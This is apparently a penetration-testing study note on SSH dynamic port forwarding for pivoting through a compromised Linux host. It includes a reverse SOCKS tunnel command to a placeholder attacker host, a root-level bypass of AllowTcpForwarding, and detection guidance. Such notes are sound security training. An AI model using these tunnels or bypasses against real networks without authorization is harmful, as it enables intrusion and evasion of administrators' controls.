

# 45.11 Dynamic Port Forwarding

## 1. Introduction to Dynamic Port Forwarding
Dynamic Port Forwarding is a highly specialized and powerful pivoting technique that leverages the SSH protocol to create a local SOCKS proxy. While **[[10 - Pivoting SOCKS Proxy]]** covers the broader concepts of SOCKS protocols and modern tools like Chisel, Dynamic Port Forwarding refers explicitly to the built-in capability of the OpenSSH client/server to act as an on-the-fly, dynamic routing engine.

Instead of manually mapping static local ports to static remote ports (as seen in **[[09 - Pivoting Port Forwarding]]**), Dynamic Forwarding allocates a single local port on the attacker's machine. The SSH client automatically manages the translation of connection requests hitting this local port into appropriate TCP connections initiated by the remote SSH server into the internal network.

This capability makes SSH an indispensable dual-purpose tool: providing both a secure remote management shell and an instant encrypted VPN-like proxy.

## 2. Architecture and Traffic Flow

The following diagram illustrates the mechanics of an SSH Dynamic Port Forward.



## 3. SSH Dynamic Forwarding Configuration

Establishing a dynamic forward relies on the `-D` flag within the SSH client. 

### 3.1. Basic Dynamic Forwarding (`-D`)
To create a SOCKS proxy listening locally on port 1080 that routes all traffic through a compromised Linux server:

```bash
ssh -N -D 127.0.0.1:1080 -f [USER]@[PIVOT_IP]
```

**Flag Breakdown:**
- `-D 127.0.0.1:1080`: Binds a SOCKS4/SOCKS5 proxy to localhost on port 1080. The SSH client listens here.
- `-N`: Instructs SSH not to execute a remote command (you won't get an interactive shell prompt). Ideal for pure port forwarding.
- `-f`: Puts the SSH process in the background immediately after authenticating, freeing up your terminal.

Once executed, you simply point `proxychains` or your web browser to `socks5://127.0.0.1:1080`. The SSH client intercepts these requests, multiplexes them into the existing SSH tunnel, and commands the `sshd` daemon on the target to open connections to the requested internal IP addresses.

### 3.2. Remote Dynamic Forwarding (Reverse SOCKS via SSH)
In many scenarios, the compromised pivot sits behind an inbound firewall, preventing the attacker from SSH-ing *in*. The pivot must initiate the connection *out* to the attacker.

Standard OpenSSH clients support **Reverse Dynamic Port Forwarding** using the `-R` flag combined with the SOCKS designation.

**Step 1: Setup Attacker SSH Server**
The attacker must run an SSH server, ensuring their firewall allows incoming connections on port 22 (or another designated port).

**Step 2: Connect out from the Pivot**
From the compromised machine, the attacker executes:
```bash
ssh -N -f -R 1080 attacker@ATTACKER_IP
```
*Note: In older versions of OpenSSH (prior to 7.6), `-R` did not support dynamic SOCKS natively, requiring complex workarounds. Modern OpenSSH supports `-R [bind_address:]port` dynamically if no remote host/port is specified.*

This command instructs the attacker's SSH server to open port 1080 locally. Any traffic sent to the attacker's local port 1080 is funneled backward down the tunnel to the pivot, which then routes it to the internal network.

## 4. SSH Multiplexing for Performance

A significant drawback of routing aggressive scans (like Nmap or Dirb) through SSH is the overhead of TCP handshakes and encryption tearing down the performance of the single connection.

**SSH Multiplexing** (ControlMaster) allows multiple SSH sessions to share a single underlying TCP connection. This drastically reduces connection overhead and speeds up dynamic proxy performance.

**Configuration (`~/.ssh/config`):**
```ssh-config
Host *
    ControlMaster auto
    ControlPath ~/.ssh/sockets/%r@%h-%p
    ControlPersist 600
```
With this configuration, the initial SSH connection creates a socket file. Subsequent SSH connections (including dynamic forwarding requests) will instantly utilize the existing socket, bypassing the lengthy key exchange and authentication phases.

## 5. Security Restrictions and Evasion (sshd_config)

The success of Dynamic Port Forwarding is heavily dependent on the target's `/etc/ssh/sshd_config` file. Administrators often harden this file to prevent pivoting.

### 5.1. AllowTcpForwarding
If the administrator has set `AllowTcpForwarding no`, the SSH daemon will explicitly refuse to open any forwarded ports, killing the dynamic proxy instantly. 
- *Bypass:* If the attacker has root privileges, they can modify `sshd_config` and run `systemctl restart sshd`.

### 5.2. PermitOpen
The `PermitOpen` directive allows administrators to lock down exactly which internal IP/Port combinations the SSH daemon is allowed to forward traffic to.
```ssh-config
# Example restriction: Only allow forwarding to the internal database
PermitOpen 10.0.0.50:3306
```
If this is configured, a broad SOCKS proxy will fail for any destination other than the permitted ones. 

## 6. Detection and Forensics

- **Network Monitoring:** While the payload is encrypted, the traffic profile of an SSH connection carrying a SOCKS proxy is highly distinctive. A standard SSH session consists of small, sporadic bursts of data (keystrokes). An SSH tunnel carrying Nmap scans or SMB traffic will display massive, continuous data transfers, alerting behavioral network sensors.
- **Syslog/Auth Logs:** The `sshd` service logs port forwarding events. If `LogLevel` is set to `VERBOSE` in `sshd_config`, every single connection made through the dynamic proxy is logged to `/var/log/auth.log`, creating a massive forensic footprint.
  ```text
  sshd[1234]: Connection to port 1080 forwarding to 10.0.0.50 port 445 requested.
  ```

## 7. Chaining Opportunities

- Dynamic Port Forwarding serves as the primary artery for executing **[[12 - Lateral Movement WMI]]** and **[[02 - Network Enumeration]]** deeper into the network.
- Frequently established immediately after securing a foothold and establishing **[[08 - Reverse Shell Stability]]**, replacing raw reverse shells with encrypted, multiplexed SSH tunnels.
- If SSH is strictly monitored or blocked, attackers will pivot away from SSH Dynamic Forwarding toward HTTP-based tunneling outlined in **[[10 - Pivoting SOCKS Proxy]]** (using Chisel).

## 8. Related Notes
- [[09 - Pivoting Port Forwarding]]
- [[10 - Pivoting SOCKS Proxy]]
- [[02 - Network Enumeration]]
